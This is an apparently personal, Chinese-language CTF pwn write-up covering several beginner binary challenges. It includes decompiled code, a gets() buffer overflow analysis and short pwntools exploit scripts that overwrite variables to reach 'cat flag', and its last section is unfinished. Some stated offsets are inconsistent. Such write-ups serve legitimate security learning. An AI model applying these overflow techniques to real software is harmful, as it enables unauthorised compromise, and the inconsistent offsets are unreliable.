


## get_shell

直接运行就能拿到 shell

## when_did_you_born

查看保护机制

```
checksec --file=when_did_you_born
```



有canary 没法进行栈溢出，NX 开启没法执行 shellcode，

直接运行，输入出生日期会进行输出，推测格式化字符串

```bash
root@kali:/workspace/gf# ./24ac28ef281b4b6caab44d6d52b17491
What's Your Birth?
20000102
What's Your Name?
cc
You Are Born In 20000102
You Are Naive.
You Speed One Second Here.
```

使用 IDA 反汇编查看，逻辑上看需要绕过输入变量为 1926 的判断

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __int64 result; // rax
  char v4; // [rsp+0h] [rbp-20h]
  unsigned int v5; // [rsp+8h] [rbp-18h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  puts("What's Your Birth?");
  __isoc99_scanf("%d", &v5);
  while ( getchar() != 10 )
    ;
  if ( v5 == 1926 )
  {
    puts("You Cannot Born In 1926!");
    result = 0LL;
  }
  else
  {
    puts("What's Your Name?");
    gets(&v4);
    printf("You Are Born In %d\n", v5);
    if ( v5 == 1926 )
    {
      puts("You Shall Have Flag.");
      system("cat flag");
    }
    else
    {
      puts("You Are Naive.");
      puts("You Speed One Second Here.");
    }
    result = 0LL;
  }
  return result;
}
```

首先分析一下获取用户输入时候的处理，`scanf()`在读取输入时会在缓冲区中留下一个字符`'\n'`，`getchar()`把这个回车符取走的话，`gets()`就不会等待从键盘键入字符，。是会直接取走这个“无用的”回车符，从而导致读取有误。10 为回车的 ASCII 码。

```c
  __isoc99_scanf("%d", &v5);
  while ( getchar() != 10 )
    ;
```

而

`gets()`函数从流中读取字符串，直到出现换行符或读到文件尾为止，最后加上NULL作为字符串结束。所读取的字符串暂存在给定的参数string中。

**由于gets()不检查字符串string的大小，必须遇到换行符或文件结尾才会结束输入**

所以输入较长的 v4 变量覆盖 v5 变量。

```bash
char v4; // [rsp+0h] [rbp-20h] # 1字节
unsigned int v5; // [rsp+8h] [rbp-18h] # 4字节，在64位机器下
```

需要输入多长的数据呢？两个变量相差 6 个字节。



所以构造输入

```
'a'*8 + 1926
```

构造 exp

```python
from pwn import *

payload = flat(["a"*8, p64(1926)])
print(payload)
sh = process("./when_did_you_born")
sh.recvuntil("What's Your Birth?")
sh.sendline("hello")
sh.recvuntil("What's Your Name?")
sh.sendline(payload)
sh.interactive()
```

**问题**

- 在每个栈帧内部变量应该是从低地址到高地址存储到栈上，此题在伪代码内显示的是

  `name` 变量处于 [rsp+0h] 低地址

  `birth` 变量处于 [rsp+8h] 高地址

  但为什么从 IDA 查看的栈空间中 name 地址大于 birth 的地址？

## hello_pwn

查看保护机制，没有canary呀，或许可以栈溢出

```bash
# checksec --file=hello_pwn --format=csv
Partial RELRO,No Canary found,NX enabled,No PIE,No RPATH,No RUNPATH,No Symbols,No,0,1,hello_pwn
```

ida 反汇编

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  alarm(0x3Cu);
  setbuf(stdout, 0LL);
  puts("~~ welcome to ctf ~~     ");
  puts("lets get helloworld for bof");
  read(0, &unk_601068, 0x10uLL);
  if ( dword_60106C == 1853186401 )
    sub_400686(0LL, &unk_601068);
  return 0LL;
}
```

从用户输入读取字符，但只会读取10 个字符，栈溢出啥啊溢出不了，但10个字符的输入对于此题的利用已经足够

> ssize_t read(int fd, void * buf, size_t count);
>
> read()会把参数fd 所指的文件传送count 个字节到buf 指针所指的内存中.

执行函数 `sub_400686` 中就是我们目标，内部有 `cat flag`

用户输入从 unk_601068 开始存储，因此我们要构造输入，使得从地址 60106C 开始读取一个双字节的数字值为1853186401

8 和 c 之前相差4字节

```bash
from pwn import *

payload = flat(["a"*4, p64(1853186401)])
print(payload)
sh = process("./hello_pwn")
sh.recvuntil("lets get helloworld for bof")
sh.sendline(payload)
sh.interactive()
```

## string

菜鸡遇到了Dragon，有一位巫师可以帮助他逃离危险，但似乎需要一些要求

保护措施

```bash
Full RELRO,Canary found,NX enabled,No PIE,No RPATH,No RUNPATH,No Symbols,No,0,2,stringgf
```

是个打怪的游戏，只要使得 a1[0] 和 a1[1] 相等，就能执行到我们想要执行的代码。

```bash
if ( *a1 == a1[1] )
{
puts("Wizard: I will help you! USE YOU SPELL");
v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
read(0, v1, 0x100uLL);
(v1)(0LL, v1);
}
```

回溯这两个变量，其实就是执行程序时开头给我们的几个变量。

```bash
we are wizard, we will give you hand, you can not defeat dragon by yourself ...
we will tell you two secret ...
secret[0] is 928010
secret[1] is 928014
```

需要想办法修改变量，不能覆盖栈，就需要

- todo